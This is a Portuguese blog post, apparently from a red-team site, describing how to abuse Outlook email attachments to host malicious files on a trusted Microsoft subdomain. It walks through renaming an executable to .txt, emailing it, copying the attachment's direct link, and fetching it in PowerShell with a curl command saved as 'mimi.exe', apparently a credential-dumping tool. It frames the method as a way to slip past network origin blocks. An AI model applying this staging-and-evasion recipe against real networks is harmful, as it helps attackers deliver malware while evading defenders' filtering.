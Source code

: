 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para armazenar arquivos maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos nos permitindo realizar o upload/download de arquivos maliciosos através de um “local confiável” por se tratar de um subdomínio do Outlook.

## Passos para reproduzir
Primeiramente devemos modificar o arquivo malicioso adicionando uma extensão de texto (.txt)
No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando **cp** para cria uma cópia do arquivo adicionando a extensão de texto, nesse caso ficaria algo como: **arquivo.exe.txt**

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos enviar um e-mail anexando nosso arquivo modificado para qualquer destino (*nesse exemplo estamos encaminhando para um endereço de e-mail temporário*) pois o que nos interessa é o link direto do arquivo.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos vamos em **Itens Enviados** e baixar o arquivo em anexo para obter o link direto do arquivo, para isso vamos em **Downloads do Navegador > Botão Direito >  Copiar link.**

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o "link direto" podemos realizar o download através do PowerShell do Windows utilizando o comando **Curl**, basta que utilizemos a opção **-o** de output para criar uma saida do arquivo original (*um executável*), nesse caso ficaria algo como: `curl "link_do_arquivo.com.br" -o mimi.exe`

![bh-Look](../assets/img/2021-12-06/IMG09.png)

## Prova de Conceito (PoC)

![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executáveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo de técnica é útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” podemos realizar o download de forma segura.

